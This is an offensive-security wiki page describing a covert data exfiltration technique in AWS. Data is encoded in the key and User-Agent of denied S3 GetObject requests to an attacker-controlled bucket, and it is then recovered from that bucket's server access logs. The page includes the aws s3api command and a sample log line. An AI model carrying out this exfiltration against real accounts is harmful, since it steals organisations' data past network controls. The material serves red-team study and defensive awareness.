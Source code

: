 ```yaml
---
author_name: Costas Kourmpoglou
title: S3 Server Access Logs 
description: Exfiltrate data via S3:GetObject.
hide:
  - toc
---
```


Related Reading: [https://airwalkreply.com/cloud-services-as-exfiltration-mechanisms](https://airwalkreply.com/cloud-services-as-exfiltration-mechanisms)

If we have control over an IAM identity that allows `s3:GetObject`, depending on the network access to the S3 service, we can use S3 server access logs to a bucket _we_ control, and use it to exfiltrate data.

We'll create an S3 bucket, `AttackerBucket` in our account with [server access logging](https://docs.aws.amazon.com/AmazonS3/latest/userguide/ServerLogs.html).
Let's name the logging bucket `AttackerBucketLogs`. Every request to the S3 bucket, will be logged in this bucket. This includes internal AWS requests, or requests made via the AWS console.

With our data in hand `ExampleDataToExfiltrate`, we will send a `GetObject` request to our bucket, for example:

`aws s3api get-object --bucket AttackerBucket  --key ExampleDataToExfiltrate`

The request will be denied. However the attempt along with the other details, including our key `ExampleDatatoExfiltrate` - which is the data we're exfiltrating -  will arrive to our logging bucket `AttackerBucketLogs`.

We'll receive the data in the default logging format:

```
[..] attackerbucket […] 31.94.19.179 – […] REST.GET.OBJECT ExampleDataToExfiltrate "GET / ExampleDataToExfiltrate HTTP/1.1" 403 AccessDenied 243 - 18 - "-" "UserAgentAlsoHasData " – […]
```


We're exfiltrating data, using the Key parameter of the request. There's a hard limit of 1024 bytes per Key, but other request fields can be used like User-Agent.

There are two challenges with this method:

1. If the network access to the S3 service takes place over a VPC endpoint, then the policy of the VPC endpoint would need to allow access to our bucket.
The VPC endpoint will drop the request and will not forward it to the S3 service, if the policy doesn't allow it. The S3 service won't be able to generate logs, and we won't be able to exfiltrate data.

2. The logs are not guaranteed to arrive in order. If you're splitting data across multiple requests, you'll need to figure out a mechanism to re-order the data correctly.  

 
For the general usecase where network access to the S3 service takes place over the internet, there is a 10-120 minute delay, in the log delivery.
